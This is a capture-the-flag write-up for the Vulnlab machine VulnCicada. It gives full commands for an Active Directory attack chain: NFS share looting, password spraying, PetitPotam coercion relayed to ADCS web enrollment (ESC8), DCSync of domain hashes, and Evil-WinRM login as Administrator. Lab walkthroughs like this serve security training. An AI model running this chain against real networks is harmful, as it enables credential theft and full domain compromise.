

# Vulnlab -  VulnCicada Writeup


Medium-rated Windows Active Directory box. NFS exposes files leading to a password-sprayed foothold. PetitPotam coerces DC authentication to a relay server, exploiting ADCS ESC8 to issue a certificate for DCSync and full domain compromise.

## Summery

VulnCicada is a Windows Active Directory machine on Vulnlab. An NFS share accessible to everyone exposes user profile directories and a screenshot containing a cleartext password on a sticky note. Password spraying with this credential against the enumerated usernames yields access as Rosie.Powell. With domain credentials, BloodHound enumeration reveals no direct privilege escalation paths, but certipy identifies the ADCS environment as vulnerable to ESC8, which is HTTP-based Web Enrollment. Exploitation involves adding a DNS record via bloodyAD, using certipy relay mode to intercept coerced NTLM authentication from the DC through PetitPotam and NetExec’s coerce_plus module, and requesting a DomainController certificate. The resulting PFX authenticates as the DC machine account, whose NTLM hash is then used for DCSync with secretsdump.py, dumping the Administrator hash and enabling full domain access via Evil-WinRM.

## Service Discovery
```bash
nmap -sV -sC -p- --min-rate 10000 TARGET-IP
```
```text
PORT      STATE SERVICE       REASON  VERSION  
53/tcp    open  domain        syn-ack Simple DNS Plus  
80/tcp    open  http          syn-ack Microsoft IIS httpd 10.0  
|_http-title: IIS Windows Server  
|_http-server-header: Microsoft-IIS/10.0  
| http-methods:  
|   Supported Methods: OPTIONS TRACE GET HEAD POST  
|_  Potentially risky methods: TRACE  
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2025-11-21 12:38:13Z)  
111/tcp   open  rpcbind       syn-ack 2-4 (RPC #100000)  
| rpcinfo:  
|   program version    port/proto  service  
|   100000  2,3,4        111/tcp   rpcbind  
|   100000  2,3,4        111/tcp6  rpcbind  
|   100000  2,3,4        111/udp   rpcbind  
|   100000  2,3,4        111/udp6  rpcbind  
|   100003  2,3         2049/udp   nfs  
|   100003  2,3         2049/udp6  nfs  
|   100003  2,3,4       2049/tcp   nfs  
|   100003  2,3,4       2049/tcp6  nfs  
|   100005  1,2,3       2049/tcp   mountd  
|   100005  1,2,3       2049/tcp6  mountd  
|   100005  1,2,3       2049/udp   mountd  
|   100005  1,2,3       2049/udp6  mountd  
|   100021  1,2,3,4     2049/tcp   nlockmgr  
|   100021  1,2,3,4     2049/tcp6  nlockmgr  
|   100021  1,2,3,4     2049/udp   nlockmgr  
|   100021  1,2,3,4     2049/udp6  nlockmgr  
|   100024  1           2049/tcp   status  
|   100024  1           2049/tcp6  status  
|   100024  1           2049/udp   status  
|_  100024  1           2049/udp6  status  
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC  
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn  
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: cicada.vl0., Site: Default-First-Site-Name)  
|_ssl-date: TLS randomness does not represent time  
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl  
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC-JPQ225.cicada.vl  
| Issuer: commonName=cicada-DC-JPQ225-CA/domainComponent=cicada  
| Public Key type: rsa  
| Public Key bits: 2048  
| Signature Algorithm: sha256WithRSAEncryption  
| Not valid before: 2025-11-21T11:01:09  
| Not valid after:  2026-11-21T11:01:09  
| MD5:   062be88241bfd43e3899f8b31aa85280  
| SHA-1: 499326b73a9b0ad86889929f855c4e1b494fe6ec  
| -----BEGIN CERTIFICATE-----  
| MII[SNIP]Pg==  
|_-----END CERTIFICATE-----  
445/tcp   open  microsoft-ds? syn-ack  
464/tcp   open  kpasswd5?     syn-ack  
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0  
636/tcp   open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: cicada.vl0., Site: Default-First-Site-Name)  
|_ssl-date: TLS randomness does not represent time  
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl  
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC-JPQ225.cicada.vl  
| Issuer: commonName=cicada-DC-JPQ225-CA/domainComponent=cicada  
| Public Key type: rsa  
| Public Key bits: 2048  
| Signature Algorithm: sha256WithRSAEncryption  
| Not valid before: 2025-11-21T11:01:09  
| Not valid after:  2026-11-21T11:01:09  
| MD5:   062be88241bfd43e3899f8b31aa85280  
| SHA-1: 499326b73a9b0ad86889929f855c4e1b494fe6ec  
| -----BEGIN CERTIFICATE-----  
| MII[SNIP]Pg==  
|_-----END CERTIFICATE-----  
2049/tcp  open  mountd        syn-ack 1-3 (RPC #100005)  
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: cicada.vl0., Site: Default-First-Site-Name)  
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl  
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC-JPQ225.cicada.vl  
| Issuer: commonName=cicada-DC-JPQ225-CA/domainComponent=cicada  
| Public Key type: rsa  
| Public Key bits: 2048  
| Signature Algorithm: sha256WithRSAEncryption  
| Not valid before: 2025-11-21T11:01:09  
| Not valid after:  2026-11-21T11:01:09  
| MD5:   062be88241bfd43e3899f8b31aa85280  
| SHA-1: 499326b73a9b0ad86889929f855c4e1b494fe6ec  
| -----BEGIN CERTIFICATE-----  
| MII[SNIP]Pg==  
|_-----END CERTIFICATE-----  
|_ssl-date: TLS randomness does not represent time  
3269/tcp  open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: cicada.vl0., Site: Default-First-Site-Name)  
|_ssl-date: TLS randomness does not represent time  
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl  
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC-JPQ225.cicada.vl  
| Issuer: commonName=cicada-DC-JPQ225-CA/domainComponent=cicada  
| Public Key type: rsa  
| Public Key bits: 2048  
| Signature Algorithm: sha256WithRSAEncryption  
| Not valid before: 2025-11-21T11:01:09  
| Not valid after:  2026-11-21T11:01:09  
| MD5:   062be88241bfd43e3899f8b31aa85280  
| SHA-1: 499326b73a9b0ad86889929f855c4e1b494fe6ec  
| -----BEGIN CERTIFICATE-----  
| MII[SNIP]Pg==  
|_-----END CERTIFICATE-----  
3389/tcp  open  ms-wbt-server syn-ack Microsoft Terminal Services  
|_ssl-date: 2025-11-21T12:39:50+00:00; 0s from scanner time.  
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl  
| Issuer: commonName=DC-JPQ225.cicada.vl  
| Public Key type: rsa  
| Public Key bits: 2048  
| Signature Algorithm: sha256WithRSAEncryption  
| Not valid before: 2025-11-20T11:08:45  
| Not valid after:  2026-05-22T11:08:45  
| MD5:   81d21f14c1f8c89e5bc11f021549359a  
| SHA-1: e0c517136684645a38cb105de242817a9441df26  
| -----BEGIN CERTIFICATE-----  
| MII[SNIP]3u0  
|_-----END CERTIFICATE-----  
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)  
|_http-server-header: Microsoft-HTTPAPI/2.0  
|_http-title: Not Found  
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing  
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC  
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC  
54116/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0  
54117/tcp open  msrpc         syn-ack Microsoft Windows RPC  
54134/tcp open  msrpc         syn-ack Microsoft Windows RPC  
54204/tcp open  msrpc         syn-ack Microsoft Windows RPC  
55815/tcp open  msrpc         syn-ack Microsoft Windows RPC  
56055/tcp open  msrpc         syn-ack Microsoft Windows RPC  
Service Info: Host: DC-JPQ225; OS: Windows; CPE: cpe:/o:microsoft:windows  
```
## NFS Exposure

The first useful foothold comes from the exported NFS share. The share is available to everyone, and mounting it locally exposes multiple profile directories, including `Rosie.Powell` and `Administrator`.

```bash
showmount -e DC-JPQ225
sudo mount -t nfs DC-JPQ225:/profiles ./mount/
ls -la mount/
find mount/ -type f
```

Inside the tree, two image files stand out:

- `mount/Rosie.Powell/marketing.png`
- `mount/Administrator/vacation.png`

The `marketing.png` screenshot contains a sticky note with a cleartext password, which becomes the credential for the next stage.



## Password Spraying

The password recovered from the screenshot is `Cicada123`. I used it in a spray against the enumerated usernames and got a valid authentication result for `Rosie.Powell`.

```bash
nxc smb 10.129.234.48 -u users.txt -p passwords.txt --continue-on-success -k
```

The output also shows a different failure mode for `Shirley.West`:

```text
SMB         10.129.234.48   445    DC-JPQ225        [+] cicada.vl\Rosie.Powell:Cicada123
SMB         10.129.234.48   445    DC-JPQ225        [-] cicada.vl\Shirley.West:Cicada123 KDC_ERR_CLIENT_REVOKED
```

That becomes useful context later, but the main result is successful domain access as `Rosie.Powell`.

## Kerberos Setup

To make Kerberos-authenticated tooling work cleanly, I generated a matching `krb5.conf` configuration with NetExec and moved it into place.

```bash
nxc smb 10.129.234.48 -u rosie.powell -p Cicada123 -k --generate-krb5-file krb5.conf
sudo mv krb5.conf /etc/
```

Then I requested a TGT for `rosie.powell`, renamed the ccache file, and pointed `KRB5CCNAME` to it.

```bash
getTGT.py cicada.vl/rosie.powell@DC-JPQ225.cicada.vl
mv rosie.powell\@DC-JPQ225.cicada.vl.ccache rosie.powell.ccache
export KRB5CCNAME=./rosie.powell.ccache
```

That gave me a Kerberos-authenticated session for subsequent LDAP and ADCS enumeration.

## Domain Recon

I used `rusthound-ce` to gather directory data for BloodHound analysis.

```bash
rusthound-ce -d cicada.vl -k -z -f DC-JPQ225.cicada.vl -c All
```

The collected graph did not reveal an obvious direct path to higher privileges, so the attack pivoted to certificate services.

## ADCS Discovery

Certipy identified the ADCS environment as vulnerable to ESC8.

```bash
certipy find -vulnerable -k -u rosie.powell@cicada.vl -p Cicada123 -dc-host dc-jpq225.cicada.vl -dc-ip 10.129.234.48
```

The JSON output explicitly showed:

```json
"[!] Vulnerabilities": {
        "ESC8": "Web Enrollment is enabled over HTTP."
      }
```

That means the CA’s web enrollment interface can be abused through NTLM relay.

## Relay Preparation

Because the Machine Account Quota was 10, I could add a DNS record through bloodyAD as part of the relay setup.

```bash
bloodyAD.py -u Rosie.Powell -p Cicada123 -d cicada.vl -k --host DC-JPQ225.cicada.vl add dnsRecord DC-JPQ2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA 10.10.14.57
```

Next I started certipy relay against the ADCS web enrollment endpoint.

```bash
certipy relay -target http://10.129.234.48/ -template DomainController
```

Then I coerced the domain controller to authenticate using NetExec’s `coerce_plus` module with PetitPotam.

```bash
nxc smb dc-jpq225.cicada.vl -k -u rosie.powell -p Cicada123 -M coerce_plus -o LISTENER=DC-JPQ2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA M=PetitPotam
```

The coercion forces the DC to attempt authentication to the listener, which certipy relays to the CA web enrollment endpoint. The relay succeeds because the DC falls back from Kerberos to NTLM in this setup.

## Certificate Abuse

Alternative tooling could also be used for the same relay flow, including krbrelayx.

```bash
python3 krbrelayx.py -t http://dc-jpq225.cicada.vl/certsrv/ --template DomainController --adcs -dc-ip 10.129.234.48
```

Whether the certificate comes from krbrelayx or certipy, the result is a usable PFX for the DC machine account.

```bash
certipy auth -pfx unknown6053.pfx -dc-ip 10.129.234.48
certipy auth -pfx dc-jpq225.pfx -dc-ip 10.129.234.48
```

After authenticating as the DC machine account, I used the obtained NTLM hash to perform DCSync.

```bash
secretsdump.py -hashes :a65952c664e9cf5de60195626edbeee3 'cicada.vl/dc-jpq225$@dc-jpq225.cicada.vl' -k
```

That exposed the domain Administrator hash.

## Final Access

With the Administrator hash available, I requested a TGT for Administrator and then connected through Evil-WinRM.

```bash
getTGT.py cicada.vl/administrator -hashes :85a0da53871a9d56b6cd05deda3a5e87
evil-winrm -r CICADA.VL -u administrator -i dc-jpq225.cicada.vl
```

The flags are located in `C:\users\administrator\desktop`.

## Attack Path

- Enumerate the exposed services and identify the NFS export.
- Mount `/profiles` and inspect user directories.
- Find the sticky-note password in `marketing.png`.
- Spray `Cicada123` against the enumerated usernames.
- Authenticate as `Rosie.Powell`.
- Generate Kerberos configuration and request a TGT.
- Run BloodHound collection to map the domain.
- Use Certipy to confirm ESC8 on ADCS web enrollment.
- Add a DNS record with bloodyAD.
- Relay coerced DC authentication through certipy.
- Request a DomainController certificate.
- Authenticate with the resulting PFX.
- Use the DC machine hash for DCSync with secretsdump.
- Recover the Administrator hash.
- Log in with Evil-WinRM as Administrator.
- Read the flags from the administrator desktop.

## Notes

The key chain in this machine is simple but effective: exposed NFS data leads to a valid password, which leads to AD access, which then opens the door to ADCS relay abuse. The important detail is that no direct BloodHound privilege path was needed, because ESC8 turned certificate services into the real escalation path.
